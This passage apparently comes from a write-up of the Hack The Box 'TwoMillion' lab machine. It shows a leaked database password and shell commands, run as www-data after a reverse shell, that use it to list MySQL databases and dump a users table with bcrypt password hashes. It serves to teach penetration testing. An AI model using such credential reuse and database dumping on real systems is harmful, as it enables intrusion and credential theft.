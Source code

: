```bash
DB_PASSWORD=SuperDuperPass123
```

## Reverse Shell

![Writeup-5.png](/assets/images/Machines/TwoMillion/Writeup-5.png)

```bash
www-data@2million: mysql --version
mysql  Ver 15.1 Distrib 10.6.12-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper

www-data@2million: mysql -u 'admin' -p'SuperDuperPass123' -e 'SHOW DATABASES;'
Database
htb_prod
information_schema

www-data@2million: mysql -u 'admin' -p'SuperDuperPass123' htb_prod -e 'SHOW TABLES;'
Tables_in_htb_prod
invite_codes
users

www-data@2million: mysql -u 'admin' -p'SuperDuperPass123' htb_prod -e 'SELECT * FROM users;'
id      username        email   password        is_admin
11      TRX     trx@hackthebox.eu       $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq    1
12      TheCyberGeek    thecybergeek@hackthebox.eu      $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK    1
13      test    test@test.pp    $2y$10$VNDqbO7tk3C2/69glMv29uzxOjSAYsQ56m.xM0JVYNeHIBgFH5HIe    1
14      test123 test@test.com   $2y$10$lYMn7MtiuzYmAKvw7kzK.uUsSXrT4yCZ5TGxqaGYuf7t7IQ/hjS/G    1
15      test02  test02@2million.htb     $2y$10$ajYFfmqGn4LGJAfKsF7F2.effuEK6NyFQKgx/LSxXIziwXCOIe9Ii    1
```

